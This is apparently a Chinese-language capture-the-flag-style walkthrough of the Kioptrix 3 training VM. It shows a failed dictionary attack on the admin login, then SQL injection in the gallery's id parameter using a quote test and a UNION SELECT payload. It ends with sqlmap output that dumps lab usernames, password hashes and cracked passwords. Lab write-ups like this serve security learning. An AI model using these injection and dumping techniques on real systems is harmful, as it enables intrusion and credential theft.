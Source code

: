 在 http://kioptrix3.com/index.php?system=Blog 页面中发现了一个用户名 loneferret，尝试使用 rockyou 的字典爆破下 login http://kioptrix3.com/index.php?system=Admin 没有找到对应的密码。

在 gallery http://kioptrix3.com/gallery/index.php 中，第二个功能区中，可以按照相关属性进行排序显示 http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos，经过测试，这里的id存在sql注入，id的数值后加上一个单引号就会报错：

```
http://kioptrix3.com/gallery/gallery.php?id=1%27&sort=size#photos

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' order by parentid,sort,name' at line 1Could not select category
```

使用 order by 进行测试后，发现有 6 列：

```
http://kioptrix3.com/gallery/gallery.php?id=-1  union select 1,2,3,4,5,6 -- -&sort=dateuploaded#photos
```

直接使用 sqlmap 进行爆破，找到相关数据表。发现 gallery 数据库中有 2 个表可能有用户信息：dev_accounts 和 gallarific_users

```
Database: gallery
[7 tables]
+----------------------+
| dev_accounts         |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+

Table: dev_accounts
[2 entries]
+----+---------------------------------------------+------------+
| id | password                                    | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+

Table: gallarific_users
[1 entry]
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| userid | email   | photo   | website | joincode | lastname | password | username | usertype  | firstname | datejoined | issuperuser |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
| 1      | <blank> | <blank> | <blank> | <blank>  | User     | n0t7t1k4 | admin    | superuser | Super     | 1302628616 | 1           |
+--------+---------+---------+---------+----------+----------+----------+----------+-----------+-----------+------------+-------------+
```
